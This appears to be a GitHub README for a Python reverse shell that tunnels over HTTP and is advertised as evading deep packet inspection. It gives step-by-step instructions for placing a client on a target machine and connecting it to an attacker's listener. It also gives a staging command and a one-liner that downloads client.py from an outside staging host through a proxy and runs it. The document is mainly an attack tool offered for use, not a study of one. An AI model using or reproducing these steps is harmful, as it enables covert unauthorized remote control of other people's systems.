 # HTTP-Reverse-Shell

A reverse shell over HTTP (dodges deep packet inspection). Using Python 3 and no external dependencies needed.

# Prerequisites
- Python 3 (on both the attacker and the target machine)

# Usage
1. Change `ATTACKER_HOSTNAME` to the actual hostname of the attacker on `client.py`
2. Change `ATTACKER_PORT` on both `client.py` and `server.py` (or you can just use the default)
3. Transfer `client.py` to the target machine
4. Run `server.py` on the attacker machine
```
python3 server.py
```
5. Run `client.py` on the target machine
```
python3 client.py
```
6. Connection will be established


# Possible Transfer Methods

In the directory where client.py exists on a separate attacker payload staging machine, run the following: 

`sudo python -m http.server 443`

# Possible Initiation Methods

On the target system run the following command to fetche the staged payload, then reach out to the listener hosted on a second attacker machine to complete the reverse shell.

`curl --proxy proxy.example.com:8080 http://staging.com:443/client.py > client.py && python client.py`

